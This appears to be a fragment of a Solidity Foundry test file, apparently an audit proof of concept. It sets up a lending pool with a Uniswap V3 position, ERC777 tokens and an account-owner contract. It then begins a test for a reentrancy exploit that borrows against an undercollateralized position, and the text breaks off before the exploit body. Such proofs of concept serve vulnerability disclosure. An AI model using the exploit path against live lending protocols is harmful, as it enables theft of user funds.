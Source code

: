         /////////////////////////////////////////////////////////////////
        //                          SETUP                              //
        /////////////////////////////////////////////////////////////////
    
        function setUp() public override(LendingPool_Fuzz_Test, UniswapV3AM_Fuzz_Test) {
            // Setup pool test
            LendingPool_Fuzz_Test.setUp();
    
            // Deploy fixture for Uniswap.
            UniswapV3Fixture.setUp();
    
            deployUniswapV3AM(address(nonfungiblePositionManager));
    
            vm.startPrank(users.riskManager);
            registryExtension.setRiskParametersOfDerivedAM(
                address(pool), address(uniV3AssetModule), type(uint112).max, 100
            );
     
            token0 = mockERC20.token1;
            token1 = mockERC20.token2;
            (token0, token1) = token0 < token1 ? (token0, token1) : (token1, token0);
    
            // Deploy account owner
            accountOwnerContract = new AccountOwner(address(nonfungiblePositionManager));
    
            
            // Set origination fee
            vm.startPrank(users.creatorAddress);
            pool.setOriginationFee(100); // 1%
    
            // Transfer ownership to Account Owner 
            vm.startPrank(users.accountOwner);
            factory.safeTransferFrom(users.accountOwner, address(accountOwnerContract), address(proxyAccount));
            vm.stopPrank();
            
    
            // Mint uniswap position underlying tokens to accountOwnerContract
            mockERC20.token1.mint(address(accountOwnerContract), 100 ether);
            mockERC20.token2.mint(address(accountOwnerContract), 100 ether);
    
            // Open Uniswap position 
            tokenId = _openUniswapPosition();
     
    
            // Transfer some ERC777 tokens to accountOwnerContract. These will be used to be deposited as collateral into the account
             vm.startPrank(users.liquidityProvider);
             mockERC20.token777.transfer(address(accountOwnerContract), 1 ether);
        }
    
        /////////////////////////////////////////////////////////////////
        //                           POC                               //
        /////////////////////////////////////////////////////////////////
        /// @notice Test exploiting the reentrancy vulnerability. 
        function testVuln_borrowUsingUndercollateralizedUniswapPosition(
            uint128 amountLoaned,
            uint112 collateralValue,
            uint128 liquidity,
            uint8 originationFee
        ) public {   
    